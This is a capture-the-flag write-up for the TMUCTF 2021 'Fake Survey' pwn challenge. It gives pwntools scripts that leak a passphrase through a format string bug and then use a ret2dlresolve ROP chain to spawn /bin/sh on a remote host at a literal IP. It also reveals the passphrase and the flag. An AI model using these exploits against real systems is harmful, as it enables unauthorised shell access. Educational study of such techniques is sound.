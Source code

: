 # Challenge Description
<p align="center">
  <img src="Challenge.png">
</p>
<br>

# Writeup
This challenge has two steps. In the first step we have to use `format string` vulnerability to leak the needed passPhrase. In second step we can use `return ro dl_reslove` technique.   
Here is the script used for the first step (also available in [solve_step1.py](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Pwn/Fake%20Survey/Writeup%20Files/solve_step1.py)):    
```python
import pwn
import time

i = 1
l = []
while(i != 15):
	r = pwn.remote('185.235.41.205', 7050)
	p = "%" + str(i) + "$p"
	r.sendline(p)
	r.recvlines(21)
	adminPass = r.recvline().split(" ")[-1]
	print(adminPass)
	l.append(adminPass)
	i = i + 1
pl = []
for k in l:
	try:
		pl.append(pwn.p32(int(k, 16)))
	except Exception as e:
		pass
print("".join(pl))
```   
And for `return to dl_resove` I used `Ret2dlresolvePayload` class of `pwntools` (also available in [solve_step2.py](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Pwn/Fake%20Survey/Writeup%20Files/solve_step2.py)):  
```python
from pwn import *
context.binary = elf = ELF('./fakesurvey')

rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()

p = remote('185.235.41.205', 7050)
p.sendline("CPRSyRMOFa3FVIF")
p.sendline(fit({64+context.bytes*3: raw_rop, 200: dlresolve.payload}))
p.interactive()
```   
The flag:   
```
TMUCTF{m4yb3_y0u_u53d_7h3_574ck_4nd_r37urn3d_70_dl_r350lv3}
```  
